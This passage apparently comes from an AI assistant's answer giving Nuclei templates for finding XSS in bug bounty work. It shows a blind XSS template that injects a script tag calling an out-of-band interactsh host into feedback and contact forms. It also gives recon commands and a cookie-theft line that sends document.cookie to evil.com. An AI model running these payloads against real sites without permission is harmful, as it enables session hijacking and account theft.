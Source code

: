 # Template 5: Blind XSS with OOB
id: blind-xss-oob
info:
  name: Blind XSS with OOB Callback
  author: custom-hunter
  severity: high
  tags: xss, blind, oob
http:
  - method: POST
    path:
      - "{{BaseURL}}/feedback"
      - "{{BaseURL}}/contact"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: "message=<script src=\"{{interactsh-url}}\"></script>&name=test"
    matchers:
      - type: dsl
        dsl:
          - "contains(interactsh_protocol, 'http')"
</xaiArtifact>

---

### How to Use These Templates in Bug Bounty

1. **Setup and Run**:
   - Save the artifact as `xss_templates.yaml` in your Nuclei templates directory (e.g., `~/custom-nuclei/xss_templates.yaml`).
   - Run on a single target: `nuclei -u http://target.com -t xss_templates.yaml -rl 10`.
   - Integrate with recon: `subfinder -d target.com | httpx -silent | nuclei -t xss_templates.yaml -o xss_results.txt`.
   - Use `-silent` for cleaner output or `-jsonl` for parsing.

2. **Key Features of Each Template**:
   - **Reflected XSS**: Targets URL parameters (e.g., `?q=`, `?search=`) common in search bars or redirects; matches on payload reflection.
   - **Stored XSS**: Tests form inputs (e.g., comments, profiles) for persistent script execution; includes follow-up GET to verify storage.
   - **DOM-Based XSS**: Probes fragment-based inputs (e.g., `#hash`) for client-side script execution via `document.write` or `eval`.
   - **Filter Bypass**: Uses obfuscated payloads to evade WAFs or sanitizers (e.g., null bytes, polyglots).
   - **Blind XSS**: Sends payloads to forms (e.g., feedback) and uses interact.sh for OOB callbacks, ideal for admin panels.

3. **Workflow Integration**:
   - **Recon**: Gather endpoints with `gau target.com --subs > urls.txt`; filter for params like `q`, `search`.
   - **Scan**: Run `cat urls.txt | nuclei -t xss_templates.yaml -severity medium,high`.
   - **Validate**: Use Burp Suite to manually test positive hits (e.g., confirm `<script>alert(1)</script>` executes). Escalate with PoCs like cookie theft (`document.location='http://evil.com?cookie='+document.cookie`).
   - **Optimize**: Adjust `-c 20` (threads) and `-rl 50` (rate limit) to avoid bans; test on VDPs first.
